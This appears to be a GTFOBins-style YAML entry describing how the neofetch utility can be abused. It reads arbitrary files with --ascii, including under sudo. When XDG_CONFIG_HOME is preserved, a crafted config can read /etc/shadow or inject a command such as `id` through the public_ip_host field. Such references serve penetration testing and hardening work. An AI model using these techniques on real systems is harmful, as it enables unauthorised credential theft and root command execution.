 ```yaml
---
description: The file content is used as the logo while some other information is displayed on its right, thus it might not be suitable to read arbitray binary files.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        neofetch --ascii $LFILE
  sudo:
    - code: |
        LFILE=file_to_read
        sudo neofetch --ascii $LFILE
    - description: read file if `env_keep+=XDG_CONFIG_HOME` in `sudo -l`.
      code: |
        export XDG_CONFIG_HOME="/home/thomas/.config"
        # edit /home/thomas/.cofig/neofetch/config.conf
        # image_source="/etc/shadow"
        sudo /usr/bin/neofetch
    - description: exec cmd if `env_keep+=XDG_CONFIG_HOME` in `sudo -l`.
      code: |
        export XDG_CONFIG_HOME="/home/thomas/.config"
        # edit /home/thomas/.cofig/neofetch/config.conf
        # public_ip_host="http://127.0.0.1/`id`"
        sudo /usr/bin/neofetch
---
```

